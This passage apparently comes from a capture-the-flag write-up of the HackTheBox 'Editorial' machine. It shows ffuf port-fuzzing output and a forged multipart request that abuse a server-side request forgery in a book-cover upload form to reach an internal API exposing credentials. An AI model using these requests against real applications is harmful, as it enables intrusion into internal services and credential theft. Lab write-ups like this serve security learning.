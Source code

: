```c
 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: -
 :: Header           : Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8DGcLOaBG09f3afR
 :: Header           : Accept: */*
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: close
 :: Header           : Host: editorial.htb
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
 :: Header           : Accept-Language: en-US,en;q=0.9
 :: Data             : ------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary8DGcLOaBG09f3afR--
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: unsplash_photo
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 24ms]
:: Progress: [10000/10000] :: Job [1/1] :: 37 req/sec :: Duration: [0:03:58] :: Errors: 1 ::
```

#### API Enumeration

The second request we forged accessed `/api/latest/metadata/messages/authors` which revealed some `credentials` for a user called `dev`.

```c
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 344
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygBlD0crl03qg37hx
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundarygBlD0crl03qg37hx
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000/api/latest/metadata/messages/authors
------WebKitFormBoundarygBlD0crl03qg37hx
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


```